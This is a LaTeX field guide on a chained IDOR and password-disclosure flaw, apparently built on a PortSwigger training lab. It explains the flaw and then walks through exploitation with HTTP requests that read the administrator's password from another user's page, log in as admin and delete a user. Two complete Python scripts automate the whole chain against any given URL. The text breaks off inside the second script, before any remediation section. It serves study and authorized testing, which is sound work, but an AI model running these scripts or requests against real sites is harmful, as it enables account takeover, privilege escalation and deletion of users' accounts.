\documentclass[11pt,letterpaper]{article}

% ============================================================
% COMPREHENSIVE FIELD GUIDE: User ID Controlled by Request Parameter
% with Password Disclosure - Chained IDOR + Credential Exposure
% ============================================================

% ---------- Page & typography ----------
\usepackage[margin=1in]{geometry}
\usepackage[T1]{fontenc}
\usepackage[utf8]{inputenc}
\usepackage{lmodern}
\usepackage{microtype}
\usepackage{parskip}

% ---------- Structure ----------
\usepackage{booktabs}
\usepackage{longtable}
\usepackage{tabularx}
\usepackage{array}
\usepackage{multirow}
\usepackage{enumitem}
\setlist[itemize]{leftmargin=*, itemsep=0.35em, topsep=0.35em}
\setlist[enumerate]{leftmargin=*, itemsep=0.35em, topsep=0.35em}

% ---------- Links ----------
\usepackage[hidelinks,colorlinks=true,linkcolor=blue!60!black,urlcolor=blue!70!black]{hyperref}
\usepackage{url}

% ---------- Graphics ----------
\usepackage{graphicx}
\usepackage{tikz}
\usetikzlibrary{shapes.geometric, arrows.meta, positioning, fit, backgrounds, chains}

% ---------- Code listings ----------
\usepackage{xcolor}
\usepackage{listings}
\usepackage{fancyvrb}

\definecolor{codeframe}{rgb}{0.85,0.85,0.85}
\definecolor{codenums}{rgb}{0.40,0.40,0.40}
\definecolor{codebg}{rgb}{0.97,0.97,0.97}
\definecolor{codegreen}{rgb}{0.0,0.5,0.0}
\definecolor{codepurple}{rgb}{0.58,0.0,0.82}
\definecolor{codeblue}{rgb}{0.0,0.0,0.7}
\definecolor{codered}{rgb}{0.7,0.0,0.0}
\definecolor{passwordcolor}{rgb}{0.8,0.0,0.0}

% Robust inline code (handles %, _, #, etc.)
\newcommand{\code}[1]{\texttt{\detokenize{#1}}}
\newcommand{\kbd}[1]{\fbox{\texttt{\small #1}}}
\newcommand{\filepath}[1]{\texttt{#1}}
\newcommand{\password}[1]{\texttt{\color{passwordcolor}#1}}

\lstdefinelanguage{http}{
  morekeywords={GET,POST,PUT,DELETE,PATCH,HEAD,OPTIONS,HTTP,Host,User-Agent,Accept,Accept-Language,Content-Type,Authorization,Cookie,Set-Cookie,Location,Origin,Referer,Cache-Control,X-Requested-With},
  sensitive=true,
  morecomment=[l]{\#},
  morestring=[b]"
}

\lstdefinelanguage{javascript}{
  morekeywords={break,case,catch,class,const,continue,debugger,default,delete,do,else,export,extends,finally,for,function,if,import,in,instanceof,let,new,return,super,switch,this,throw,try,typeof,var,void,while,with,yield,await,async,true,false,null,undefined,require,module,exports,document,window},
  sensitive=true,
  morecomment=[l]{//},
  morecomment=[s]{/*}{*/},
  morestring=[b]',
  morestring=[b]"
}

\lstdefinelanguage{python}{
  morekeywords={and,as,assert,break,class,continue,def,del,elif,else,except,False,finally,for,from,global,if,import,in,is,lambda,None,nonlocal,not,or,pass,raise,return,True,try,while,with,yield,self,print},
  sensitive=true,
  morecomment=[l]{\#},
  morestring=[b]',
  morestring=[b]",
  morestring=[b]'''
}

\lstdefinelanguage{bash}{
  morekeywords={sudo,apt,cat,cd,chmod,cp,curl,echo,export,grep,head,kill,less,ls,mkdir,mv,printf,ps,pwd,rm,sed,ssh,tail,touch,which,python,python3,pip,jq,awk,xargs},
  sensitive=true,
  morecomment=[l]{\#},
  morestring=[b]"
}

\lstdefinelanguage{html}{
  morekeywords={html,head,body,script,div,span,a,href,src,id,class,p,h1,h2,h3,input,form,type,name,value,button},
  sensitive=false,
  morecomment=[s]{<!--}{-->},
  morestring=[b]",
  morestring=[b]'
}

\lstdefinelanguage{java}{
  morekeywords={abstract,assert,boolean,break,byte,case,catch,char,class,const,continue,default,do,double,else,enum,extends,false,final,finally,float,for,if,implements,import,instanceof,int,interface,long,native,new,null,package,private,protected,public,return,short,static,strictfp,super,switch,synchronized,this,throw,throws,transient,true,try,void,volatile,while},
  sensitive=true,
  morecomment=[l]{//},
  morecomment=[s]{/*}{*/},
  morestring=[b]",
  morestring=[b]'
}

\lstset{
  basicstyle=\ttfamily\small,
  columns=fullflexible,
  breaklines=true,
  breakatwhitespace=false,
  frame=single,
  rulecolor=\color{codeframe},
  backgroundcolor=\color{codebg},
  framerule=0.6pt,
  numbers=left,
  numberstyle=\tiny\color{codenums},
  stepnumber=1,
  numbersep=10pt,
  showstringspaces=false,
  tabsize=2,
  upquote=true,
  keywordstyle=\color{codeblue}\bfseries,
  commentstyle=\color{codegreen}\itshape,
  stringstyle=\color{codepurple},
  xleftmargin=2em,
  framexleftmargin=1.5em
}

% ---------- Callout environments ----------
\usepackage{tcolorbox}
\usepackage{amssymb}
\tcbuselibrary{skins,breakable}

\newtcolorbox{warningbox}[1][]{
  colback=red!5!white,
  colframe=red!75!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

\newtcolorbox{infobox}[1][]{
  colback=blue!5!white,
  colframe=blue!75!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

\newtcolorbox{tipbox}[1][]{
  colback=green!5!white,
  colframe=green!60!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

\newtcolorbox{notebox}[1][]{
  colback=yellow!5!white,
  colframe=yellow!60!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

\newtcolorbox{conceptbox}[1][]{
  colback=purple!5!white,
  colframe=purple!60!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

\newtcolorbox{criticalbox}[1][]{
  colback=red!10!white,
  colframe=red!90!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

% Legacy callout for compatibility
\newenvironment{callout}[1]{%
  \begin{tcolorbox}[colback=gray!10!white,colframe=gray!60!black,fonttitle=\bfseries,title=#1,breakable]
}{%
  \end{tcolorbox}
}

% ---------- Document metadata ----------
\title{\textbf{Comprehensive Field Guide:\\User ID Controlled by Request Parameter\\with Password Disclosure}\\[0.5em]
\large Chained IDOR + Credential Exposure---From Account Takeover to Full Administrative Compromise\\[0.3em]
\normalsize Version 2.0}
\author{Web Application Security Assessment Reference}
\date{January 21, 2026}

\begin{document}
\maketitle

\begin{abstract}
\noindent This comprehensive field guide addresses a critical chained vulnerability pattern: \textbf{Insecure Direct Object Reference (IDOR) combined with password disclosure in the DOM}. In this scenario, the application's account page accepts a user-controlled \code{id} parameter to select which user's data to display, AND pre-fills the user's current password in a masked input field. This creates a devastating attack chain where any authenticated user can access any other user's account page, extract their plaintext password from the HTML source, authenticate as that user, and perform privileged actions.

This guide provides security professionals with:
\begin{itemize}
  \item Deep understanding of both vulnerabilities and why they're critical together
  \item Complete attack chain analysis: IDOR $\rightarrow$ Password Extraction $\rightarrow$ Account Takeover $\rightarrow$ Privilege Abuse
  \item Manual exploitation workflow with Burp Suite
  \item Production-ready automation scripts with multi-phase exploitation
  \item Password disclosure detection techniques
  \item Remediation patterns for both IDOR and credential handling
  \item Testing checklists and evidence collection frameworks
\end{itemize}

\noindent\textbf{Key Insight:} This vulnerability pattern demonstrates how two ``medium'' issues chain into a ``critical'' impact. The IDOR alone might only expose account settings; the password disclosure alone requires an XSS to exploit. Together, they enable complete account takeover of any user, including administrators.
\end{abstract}

\tableofcontents
\newpage

% ============================================================
\section{Introduction and Scope}
% ============================================================

\subsection{Document Purpose}

This field guide serves as a practical reference for identifying, exploiting, and remediating the combined IDOR + password disclosure vulnerability pattern. The guide emphasizes:

\begin{itemize}
  \item \textbf{Attack chain analysis}: Understanding how vulnerabilities compound
  \item \textbf{Password disclosure detection}: Finding credentials in DOM/responses
  \item \textbf{Multi-phase exploitation}: Login, extract, re-authenticate, exploit
  \item \textbf{Complete remediation}: Fixing both authorization and credential handling
\end{itemize}

\subsection{Vulnerability Classification}

\begin{table}[h]
\centering
\begin{tabular}{@{}lll@{}}
\toprule
\textbf{Standard} & \textbf{Classification} & \textbf{Reference} \\
\midrule
OWASP Top 10 2021 & A01:2021 Broken Access Control & \url{owasp.org/Top10} \\
OWASP Top 10 2021 & A02:2021 Cryptographic Failures & \url{owasp.org/Top10} \\
CWE & CWE-639: Auth Bypass via User-Controlled Key & \url{cwe.mitre.org} \\
CWE & CWE-256: Plaintext Storage of Password & \url{cwe.mitre.org} \\
CWE & CWE-549: Missing Password Field Masking & \url{cwe.mitre.org} \\
CVSS v3.1 & Critical (9.0--9.8) & Chained impact \\
\bottomrule
\end{tabular}
\caption{Vulnerability classification across security standards}
\end{table}

\subsection{The Two Independent Failures}

This vulnerability pattern combines two distinct security failures:

\begin{table}[h]
\centering
\begin{tabularx}{\textwidth}{@{}lXX@{}}
\toprule
\textbf{Aspect} & \textbf{Failure 1: IDOR} & \textbf{Failure 2: Password Disclosure} \\
\midrule
Description & \code{/my-account?id=X} returns any user's data & Password pre-filled in masked input \\
Root Cause & Missing object-level authorization & Plaintext password storage/retrieval \\
Standalone Impact & Medium (data exposure) & Low-Medium (requires XSS to exploit) \\
Combined Impact & \multicolumn{2}{c}{\textbf{Critical: Complete account takeover of any user}} \\
\bottomrule
\end{tabularx}
\caption{The two failures that create the critical chain}
\end{table}

\subsection{Ethical and Legal Framework}

\begin{warningbox}[Critical: Authorized Testing Only]
This guide must only be used on systems where you have explicit written authorization to perform security testing. This includes:
\begin{itemize}
  \item Dedicated security training labs (e.g., PortSwigger Web Security Academy)
  \item Your own test environments and applications
  \item Systems covered by a valid penetration testing agreement
  \item Bug bounty programs where this testing is in scope
\end{itemize}

\textbf{Unauthorized access to computer systems is illegal and may result in criminal prosecution.}
\end{warningbox}

% ============================================================
\section{Conceptual Foundation: Why This Chain Is Critical}
% ============================================================

\subsection{The Attack Chain Visualization}

\begin{figure}[h]
\centering

\begin{tikzpicture}[
  node distance=1.5cm,
  box/.style={rectangle, draw, rounded corners, minimum width=3cm, minimum height=1cm, align=center, font=\small},
  arrow/.style={-{Stealth[length=3mm]}, thick}
]
  % Attack chain
  \node[box, fill=blue!20] (login) {1. Login as\\low-privilege user};
  \node[box, fill=yellow!30, right=of login] (idor) {2. IDOR: Access\\admin account page};
  \node[box, fill=red!30, right=of idor] (extract) {3. Extract password\\from HTML};
  \node[box, fill=red!40, below=of extract] (auth) {4. Authenticate\\as administrator};
  \node[box, fill=red!50, left=of auth] (exploit) {5. Delete users /\\Full compromise};
  
  \draw[arrow] (login) -- (idor);
  \draw[arrow] (idor) -- (extract);
  \draw[arrow] (extract) -- (auth);
  \draw[arrow] (auth) -- (exploit);
  
  % Labels
  \node[below=0.3cm of login, font=\scriptsize] {wiener:peter};
  \node[below=0.3cm of idor, font=\scriptsize] {?id=administrator};
  \node[below=0.3cm of extract, font=\scriptsize] {value="secret"};
\end{tikzpicture}
\caption{The complete attack chain from low-privilege user to admin compromise}
\end{figure}

\subsection{Why Password Pre-fill Is a Critical Anti-Pattern}

\begin{criticalbox}[Non-Negotiable Security Rule]
\textbf{A system should NEVER be able to retrieve and display a user's current password.}

Correct systems:
\begin{itemize}
  \item Store password hashes (one-way, using bcrypt/Argon2/scrypt)
  \item Cannot retrieve the original password
  \item Use password reset flows, not password display
  \item Never pre-fill password fields with existing values
\end{itemize}
\end{criticalbox}

\subsubsection{Why Masking Doesn't Help}

The UI password mask (\code{type="password"}) only affects \emph{visual display}. If the HTML contains:

\begin{lstlisting}[language=html,caption={Password ``masked'' in UI but fully exposed in DOM}]
<input type="password" name="password" value="SuperSecret123!" />
\end{lstlisting}

The password is fully accessible via:
\begin{itemize}
  \item \textbf{View Source}: Right-click $\rightarrow$ View Page Source
  \item \textbf{DevTools}: F12 $\rightarrow$ Elements $\rightarrow$ Inspect the input
  \item \textbf{JavaScript}: \code{document.querySelector('input[name=password]').value}
  \item \textbf{XSS payload}: If XSS exists anywhere, steal all passwords
  \item \textbf{Automation}: curl/requests can extract from response body
\end{itemize}

\subsection{The Compound Impact}

\begin{table}[h]
\centering
\begin{tabularx}{\textwidth}{@{}lX@{}}
\toprule
\textbf{Impact Category} & \textbf{Description} \\
\midrule
Account Takeover & Attacker can authenticate as any user \\
Privilege Escalation & Low-privilege user becomes administrator \\
Data Breach & Access to all users' sensitive data \\
Administrative Actions & Delete users, modify settings, export data \\
Persistence & Attacker can change admin password \\
Lateral Movement & Credentials may be reused elsewhere \\
\bottomrule
\end{tabularx}
\caption{Impact categories for this vulnerability chain}
\end{table}

% ============================================================
\section{Discovery Methodologies}
% ============================================================

\subsection{Phase 1: Identify User-Controlled ID Parameters}

\subsubsection{URL Parameter Analysis}

After logging in, examine the account page URL:

\begin{lstlisting}[language=http,caption={Identifying user ID in URL parameter}]
-- After login, observe the account URL --
GET /my-account?id=wiener HTTP/1.1
Host: target.example.com
Cookie: session=xyz789

-- Key observation: the 'id' parameter controls which user's data is shown --
\end{lstlisting}

\begin{notebox}[Discovery Indicators]
Look for these patterns in account/profile URLs:
\begin{itemize}
  \item \code{/my-account?id=username}
  \item \code{/profile?user=john}
  \item \code{/account?uid=12345}
  \item \code{/settings?userId=abc-123}
\end{itemize}
\end{notebox}

\subsection{Phase 2: Detect Password Disclosure}

\subsubsection{Inspect Password Fields in Response}

\begin{lstlisting}[language=bash,caption={Searching for password values in response}]
# Fetch account page and search for password in value attribute
curl -s -b "session=xyz789" \
  "https://target.example.com/my-account?id=wiener" | \
  grep -i 'type="password"' | \
  grep -oP 'value="[^"]*"'

# More thorough search
curl -s -b "session=xyz789" \
  "https://target.example.com/my-account?id=wiener" | \
  grep -iE '(password|passwd|pwd).*value='
\end{lstlisting}

\subsubsection{Browser DevTools Method}

\begin{enumerate}
  \item Login and navigate to your account page
  \item Open DevTools (\kbd{F12})
  \item Go to Elements tab
  \item Find the password input field
  \item Check if it has a \code{value} attribute with actual password
  \item Alternatively: Console $\rightarrow$ \code{document.querySelector('input[type=password]').value}
\end{enumerate}

\begin{lstlisting}[language=html,caption={What vulnerable password field looks like in Elements tab}]
<!-- VULNERABLE: Password pre-filled in value attribute -->
<input 
    type="password" 
    name="password" 
    value="peter"
/>

<!-- SAFE: No value attribute or empty -->
<input 
    type="password" 
    name="password" 
    placeholder="Enter new password"
/>
\end{lstlisting}

\subsection{Phase 3: Test IDOR for Account Access}

\begin{lstlisting}[language=http,caption={Testing IDOR by changing user ID}]
-- Original request (your account) --
GET /my-account?id=wiener HTTP/1.1
Cookie: session=your_session_token

-- Modified request (target account) --
GET /my-account?id=administrator HTTP/1.1
Cookie: session=your_session_token

-- If vulnerable: returns administrator's account data --
\end{lstlisting}

% ============================================================
\section{Manual Exploitation Workflow}
% ============================================================

\subsection{Pre-Assessment Setup}

\begin{enumerate}
  \item \textbf{Burp Suite Configuration}
  \begin{itemize}
    \item Proxy listener on \code{127.0.0.1:8080}
    \item Intercept initially disabled
    \item Project file created for evidence
  \end{itemize}
  
  \item \textbf{Known Information}
  \begin{itemize}
    \item Low-privilege credentials: wiener:peter
    \item Target: Retrieve administrator password and delete carlos
  \end{itemize}
\end{enumerate}

\subsection{Step 1: Login as Low-Privilege User}

\begin{lstlisting}[language=http,caption={Step 1: Login with provided credentials}]
-- Get CSRF token from login page --
GET /login HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net

-- Response contains CSRF token --
HTTP/1.1 200 OK

<form method="POST" action="/login">
    <input type="hidden" name="csrf" value="TOKEN123ABC">
    ...
</form>

-- Submit login --
POST /login HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

csrf=TOKEN123ABC&username=wiener&password=peter

-- Response --
HTTP/1.1 302 Found
Location: /my-account?id=wiener
Set-Cookie: session=authenticatedSession123
\end{lstlisting}

\subsection{Step 2: Access Your Account and Observe Password Field}

\begin{lstlisting}[language=http,caption={Step 2: Observe password disclosure on own account}]
GET /my-account?id=wiener HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=authenticatedSession123

-- Response --
HTTP/1.1 200 OK
Content-Type: text/html

<html>
<body>
    <h1>My Account</h1>
    <p>Your username is: <strong>wiener</strong></p>
    
    <form method="POST" action="/my-account/change-email">
        <label>Email</label>
        <input name="email" value="wiener@example.com">
        <button>Update email</button>
    </form>
    
    <form method="POST" action="/my-account/change-password">
        <label>Password</label>
        <!-- VULNERABILITY: Password pre-filled! -->
        <input type="password" name="password" value="peter">
        <button>Update password</button>
    </form>
</body>
</html>
\end{lstlisting}

\begin{tipbox}[Key Observation]
Notice the password input has \code{value="peter"} - your actual password is visible in the HTML source! This is vulnerability \#1: Password Disclosure.
\end{tipbox}

\subsection{Step 3: Exploit IDOR to Access Administrator Account}

\begin{lstlisting}[language=http,caption={Step 3: Change id parameter to administrator}]
-- Using Burp Repeater, modify the id parameter --
GET /my-account?id=administrator HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=authenticatedSession123

-- VULNERABLE Response: Administrator's account data! --
HTTP/1.1 200 OK
Content-Type: text/html

<html>
<body>
    <h1>My Account</h1>
    <p>Your username is: <strong>administrator</strong></p>
    
    <form method="POST" action="/my-account/change-email">
        <label>Email</label>
        <input name="email" value="admin@example.com">
        <button>Update email</button>
    </form>
    
    <form method="POST" action="/my-account/change-password">
        <label>Password</label>
        <!-- CRITICAL: Administrator's password exposed! -->
        <input type="password" name="password" value="xK7mN9pQrS2t">
        <button>Update password</button>
    </form>
</body>
</html>
\end{lstlisting}

\begin{warningbox}[Critical Vulnerability Confirmed]
We accessed the administrator's account page using our low-privilege session, and the response contains the administrator's plaintext password: \password{xK7mN9pQrS2t}

This combines both vulnerabilities:
\begin{enumerate}
  \item IDOR: We accessed another user's account page
  \item Password Disclosure: Their password is visible in the HTML
\end{enumerate}
\end{warningbox}

\subsection{Step 4: Extract Administrator Password}

From the response HTML, extract the password from:
\begin{lstlisting}[language=html]
<input type="password" name="password" value="xK7mN9pQrS2t">
\end{lstlisting}

\textbf{Administrator Password:} \password{xK7mN9pQrS2t}

\subsection{Step 5: Authenticate as Administrator}

\begin{lstlisting}[language=http,caption={Step 5: Login as administrator}]
-- Logout first or use new session --
POST /login HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

csrf=NEWTOKEN456&username=administrator&password=xK7mN9pQrS2t

-- Response --
HTTP/1.1 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=adminSession789

-- Follow redirect --
GET /my-account?id=administrator HTTP/1.1
Cookie: session=adminSession789

-- Now authenticated as administrator --
HTTP/1.1 200 OK

<a href="/admin">Admin panel</a>
\end{lstlisting}

\subsection{Step 6: Execute Privileged Action}

\begin{lstlisting}[language=http,caption={Step 6: Access admin panel and delete user}]
-- Access admin panel --
GET /admin HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=adminSession789

-- Response shows user management --
HTTP/1.1 200 OK

<h1>Admin Panel</h1>
<div>
    carlos - <a href="/admin/delete?username=carlos">Delete</a>
</div>
<div>
    wiener - <a href="/admin/delete?username=wiener">Delete</a>
</div>

-- Delete carlos --
GET /admin/delete?username=carlos HTTP/1.1
Cookie: session=adminSession789

-- Response --
HTTP/1.1 302 Found
Location: /admin

-- Lab solved! --
\end{lstlisting}

% ============================================================
\section{Automated Exploitation}
% ============================================================

\subsection{Complete Python Exploitation Script}

\begin{lstlisting}[language=python,caption={Full multi-phase exploitation script}]
#!/usr/bin/env python3
"""
User ID Controlled by Parameter with Password Disclosure - Exploit Script

Attack Chain:
1. Login as low-privilege user (wiener:peter)
2. Exploit IDOR to access administrator's account page
3. Extract administrator's password from HTML
4. Login as administrator
5. Delete target user (carlos)

Usage: python3 exploit.py <BASE_URL> [--target <username>]
Example: python3 exploit.py https://lab.example.com --target carlos
"""

import sys
import re
import argparse
import requests
import urllib3
from bs4 import BeautifulSoup
from typing import Optional, Tuple

# Disable SSL warnings for lab environments
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Burp Suite proxy configuration
PROXIES = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080"
}

# Default credentials
DEFAULT_USERNAME = "wiener"
DEFAULT_PASSWORD = "peter"


def banner():
    """Print script banner."""
    print("""
+------------------------------------------------------------------+
| User ID Param + Password Disclosure -- Chain Summary               |
| IDOR -> Password extract -> Account takeover -> Privileged action |
| For authorized security testing only                              |
+------------------------------------------------------------------+
    """)


def get_csrf_token(session: requests.Session, url: str) -> Optional[str]:
    """Extract CSRF token from a page."""
    try:
        response = session.get(url, verify=False, proxies=PROXIES, timeout=15)
        soup = BeautifulSoup(response.text, 'html.parser')
        
        csrf_input = soup.find('input', {'name': 'csrf'})
        if csrf_input and csrf_input.get('value'):
            return csrf_input['value']
        
        # Fallback to regex
        match = re.search(r'name="csrf"\s+value="([^"]+)"', response.text)
        if match:
            return match.group(1)
            
        return None
    except requests.RequestException as e:
        print(f"[-] Error fetching CSRF token: {e}")
        return None


def login(
    session: requests.Session,
    base_url: str,
    username: str,
    password: str
) -> bool:
    """Login to the application."""
    login_url = f"{base_url}/login"
    
    print(f"[*] Fetching CSRF token...")
    csrf_token = get_csrf_token(session, login_url)
    
    if not csrf_token:
        print("[-] Failed to extract CSRF token")
        return False
    
    print(f"[*] Logging in as '{username}'...")
    
    login_data = {
        'csrf': csrf_token,
        'username': username,
        'password': password
    }
    
    try:
        response = session.post(
            login_url,
            data=login_data,
            verify=False,
            proxies=PROXIES,
            timeout=15,
            allow_redirects=True
        )
        
        if 'Log out' in response.text or 'logout' in response.text.lower():
            print(f"[+] Successfully logged in as '{username}'")
            return True
        
        print(f"[-] Login failed for '{username}'")
        return False
        
    except requests.RequestException as e:
        print(f"[-] Login error: {e}")
        return False


def exploit_idor_get_password(
    session: requests.Session,
    base_url: str,
    target_user: str
) -> Optional[str]:
    """
    Exploit IDOR to access target user's account and extract password.
    """
    account_url = f"{base_url}/my-account?id={target_user}"
    
    print(f"[*] Exploiting IDOR to access '{target_user}' account...")
    print(f"[*] URL: {account_url}")
    
    try:
        response = session.get(
            account_url,
            verify=False,
            proxies=PROXIES,
            timeout=15
        )
        
        if response.status_code != 200:
            print(f"[-] Failed to access account: {response.status_code}")
            return None
        
        # Verify we got the target user's page
        if target_user.lower() not in response.text.lower():
            print(f"[-] Response doesn't contain '{target_user}'")
            return None
        
        print(f"[+] Successfully accessed '{target_user}' account page!")
        
        # Extract password from HTML
        print("[*] Extracting password from response...")
        
        # Method 1: BeautifulSoup
        soup = BeautifulSoup(response.text, 'html.parser')
        password_input = soup.find('input', {'name': 'password'})
        
        if password_input and password_input.get('value'):
            password = password_input['value']
            print(f"[+] Password extracted: {password}")
            return password
        
        # Method 2: Regex fallback
        patterns = [
            r'<input[^>]*name=["\']password["\'][^>]*value=["\']([^"\']+)["\']',
            r'<input[^>]*value=["\']([^"\']+)["\'][^>]*name=["\']password["\']',
            r'type=["\']password["\'][^>]*value=["\']([^"\']+)["\']'
        ]
        
        for pattern in patterns:
            match = re.search(pattern, response.text, re.IGNORECASE)
            if match:
                password = match.group(1)
                print(f"[+] Password extracted (regex): {password}")
                return password
        
        print("[-] Could not extract password from response")
        return None
        
    except requests.RequestException as e:
        print(f"[-] Error accessing account: {e}")
        return None


def delete_user(
    session: requests.Session,
    base_url: str,
    username: str
) -> bool:
    """Delete a user via admin panel."""
    delete_url = f"{base_url}/admin/delete?username={username}"
    
    print(f"[*] Deleting user '{username}'...")
    
    try:
        response = session.get(
            delete_url,
            verify=False,
            proxies=PROXIES,
            timeout=15,
            allow_redirects=True
        )
        
        if response.status_code == 200:
            if username.lower() not in response.text.lower():
                print(f"[+] Successfully deleted '{username}'!")
                return True
            
            if 'congratulations' in response.text.lower():
                print(f"[+] Lab solved! User '{username}' deleted.")
                return True
        
        print(f"[-] Deletion may have failed: {response.status_code}")
        return False
        
    except requests.RequestException as e:
        print(f"[-] Error deleting user: {e}")
        return False


def main():
    """Main execution flow."""
    banner()
    
    parser = argparse.ArgumentParser(
        description="User ID Param + Password Disclosure Exploit"
    )
    parser.add_argument("url", help="Target base URL")
    parser.add_argument(
        "--target", "-t",
        default="carlos",
        help="Username to delete (default: carlos)"
    )
    parser.add_argument(
        "--admin-user",
        default="administrator",
        help="Admin username to compromise (default: administrator)"
    )
    parser.add_argument(
        "--no-proxy",
        action="store_true",
        help="Disable Burp proxy routing"
    )
    
    args = parser.parse_args()
    
    # Normalize URL
    base_url = args.url.rstrip('/')
    if not base_url.startswith(('http://', 'https://')):
        base_url = 'https://' + base_url
    
    print(f"[*] Target: {base_url}")
    print(f"[*] Admin to compromise: {args.admin_user}")
    print(f"[*] User to delete: {args.target}")
    
    if args.no_proxy:
        global PROXIES
        PROXIES = {}
        print("[*] Proxy disabled")
    
    # ============================================
    # PHASE 1: Login as low-privilege user
    # ============================================
    print("\n" + "="*60)
    print("PHASE 1: Authentication (Low-Privilege User)")
    print("="*60)
    
    user_session = requests.Session()
    user_session.verify = False
    user_session.headers.update({
        'User-Agent': 'IDORPasswordExploit/2.0'
    })
    
    if not login(user_session, base_url, DEFAULT_USERNAME, DEFAULT_PASSWORD):
        print("[-] Failed to login as low-privilege user. Exiting.")
        sys.exit(1)
    
    # ============================================
    # PHASE 2: Exploit IDOR to get admin password
    # ============================================
    print("\n" + "="*60)
    print("PHASE 2: IDOR Exploitation + Password Extraction")
    print("="*60)
    
    admin_password = exploit_idor_get_password(
        user_session,
        base_url,
        args.admin_user
    )
    
    if not admin_password:
        print("[-] Failed to extract admin password. Exiting.")
        sys.exit(1)
    
    # ============================================
    # PHASE 3: Login as administrator
    # ============================================
    print("\n" + "="*60)
    print("PHASE 3: Administrator Authentication")
    print("="*60)
    
    admin_session = requests.Session()
    admin_session.verify = False
    admin_session.headers.update({
        'User-Agent': 'IDORPasswordExploit/2.0'
    })
    
    if not login(admin_session, base_url, args.admin_user, admin_password):
        print("[-] Failed to login as admin. Password may be wrong.")
        sys.exit(1)
    
    # ============================================
    # PHASE 4: Execute privileged action
    # ============================================
    print("\n" + "="*60)
    print("PHASE 4: Privileged Action Execution")
    print("="*60)
    
    if not delete_user(admin_session, base_url, args.target):
        print("[-] Failed to delete target user.")
        sys.exit(1)
    
    # ============================================
    # Summary
    # ============================================
    print("\n" + "="*60)
    print("EXPLOITATION SUMMARY")
    print("="*60)
    
    print(f"""
[+] Attack Chain Completed Successfully!

    Step 1: Logged in as '{DEFAULT_USERNAME}'
    Step 2: Exploited IDOR on /my-account?id={args.admin_user}
    Step 3: Extracted password: {admin_password}
    Step 4: Authenticated as '{args.admin_user}'
    Step 5: Deleted user '{args.target}'

[+] Vulnerabilities Exploited:
    - CWE-639: IDOR (Broken Object-Level Authorization)
    - CWE-256: Plaintext Password Storage/Disclosure

[+] This demonstrates a CRITICAL chained vulnerability leading to
    complete administrative account takeover.
    """)
    
    sys.exit(0)


if __name__ == "__main__":
    main()
\end{lstlisting}

\subsection{Minimal Exploitation Script}

\begin{lstlisting}[language=python,caption={Simplified single-purpose script}]
#!/usr/bin/env python3
"""Minimal IDOR + Password Disclosure exploitation script."""

import sys
import requests
import urllib3
from bs4 import BeautifulSoup

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

PROXIES = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}


def exploit(base_url: str) -> bool:
    """Complete attack chain execution."""
    
    # Phase 1: Login as wiener
    print("[*] Phase 1: Logging in as wiener...")
    s1 = requests.Session()
    
    r = s1.get(f"{base_url}/login", verify=False, proxies=PROXIES, timeout=15)
    soup = BeautifulSoup(r.text, 'html.parser')
    csrf = soup.find('input', {'name': 'csrf'})['value']
    
    s1.post(f"{base_url}/login", data={
        'csrf': csrf,
        'username': 'wiener',
        'password': 'peter'
    }, verify=False, proxies=PROXIES, timeout=15)
    
    print("[+] Logged in as wiener")
    
    # Phase 2: IDOR to get admin password
    print("[*] Phase 2: Exploiting IDOR...")
    r = s1.get(f"{base_url}/my-account?id=administrator",
               verify=False, proxies=PROXIES, timeout=15)
    
    if 'administrator' not in r.text.lower():
        print("[-] IDOR failed")
        return False
    
    print("[+] Accessed administrator account page")
    
    # Extract password
    soup = BeautifulSoup(r.text, 'html.parser')
    pwd_input = soup.find('input', {'name': 'password'})
    admin_password = pwd_input['value']
    print(f"[+] Administrator password: {admin_password}")
    
    # Phase 3: Login as admin
    print("[*] Phase 3: Logging in as administrator...")
    s2 = requests.Session()
    
    r = s2.get(f"{base_url}/login", verify=False, proxies=PROXIES, timeout=15)
    soup = BeautifulSoup(r.text, 'html.parser')
    csrf = soup.find('input', {'name': 'csrf'})['value']
    
    s2.post(f"{base_url}/login", data={
        'csrf': csrf,
        'username': 'administrator',
        'password': admin_password
    }, verify=False, proxies=PROXIES, timeout=15)
    
    print("[+] Logged in as administrator")
    
    # Phase 4: Delete carlos
    print("[*] Phase 4: Deleting carlos...")
    r = s2.get(f"{base_url}/admin/delete?username=carlos",
               verify=False, proxies=PROXIES, timeout=15)
    
    if r.status_code == 200:
        print("[+] Carlos deleted successfully!")
        return True
    
    return False


if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <URL>")
        sys.exit(2)
    
    success = exploit(sys.argv[1].rstrip('/'))
